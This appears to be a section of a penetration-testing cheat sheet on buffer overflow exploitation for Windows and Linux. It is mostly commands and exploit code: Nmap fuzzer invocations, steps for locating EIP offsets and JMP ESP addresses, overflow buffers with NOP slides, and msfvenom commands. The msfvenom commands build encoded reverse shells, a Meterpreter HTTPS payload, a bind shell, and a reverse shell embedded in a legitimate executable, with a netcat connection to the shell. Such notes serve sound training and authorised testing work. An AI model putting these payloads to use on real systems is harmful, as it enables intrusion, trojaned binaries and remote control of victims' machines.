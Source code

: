 # [](#buffer-overflows-and-exploits)Buffer Overflows and Exploits

*   DEP and ASLR - Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR)

*   Nmap Fuzzers:

    *   NMap Fuzzer List  
        [https://nmap.org/nsedoc/categories/fuzzer.html](http://web.archive.org/web/20171113221652/https://nmap.org/nsedoc/categories/fuzzer.html)

    *   NMap HTTP Form Fuzzer  
        nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

    *   Nmap DNS Fuzzer  
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d

*   MSFvenom  
    [_https://www.offensive-security.com/metasploit-unleashed/msfvenom/_](http://web.archive.org/web/20171113221652/https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

*   Windows Buffer Overflows

    *   Controlling EIP

             locate pattern_create
             pattern_create.rb -l 2700
             locate pattern_offset
             pattern_offset.rb -q 39694438

    *   Verify exact location of EIP - [*] Exact match at offset 2606

            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    *   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    *   Use Mona to determine a module that is unprotected

    *   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    *   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP  
            00000000 FFE4 jmp esp

    *   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll  
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

    *   MSFVenom to create payload

            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

    *   Final Payload with NOP slide

            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    *   Create a PE Reverse Shell  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f  
        exe -o shell_reverse.exe

    *   Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f  
        exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

    *   Create a PE reverse shell and embed it into an existing executable  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

    *   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

*   Linux Buffer Overflows

    *   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire

    *   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax

    *   Check for “Bad Characters” Process of elimination - Run multiple times 0x00 - 0xFF

    *   Find JMP ESP address  
        "\x97\x45\x13\x08" # Found at Address 08134597

    *   crash = "\x41" * 4368 + "\x97\x45\x13\x08" + "\x83\xc0\x0c\xff\xe0\x90\x90"

    *   msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai

    *   Connect to the shell with netcat:  
        nc -v $ip 4444

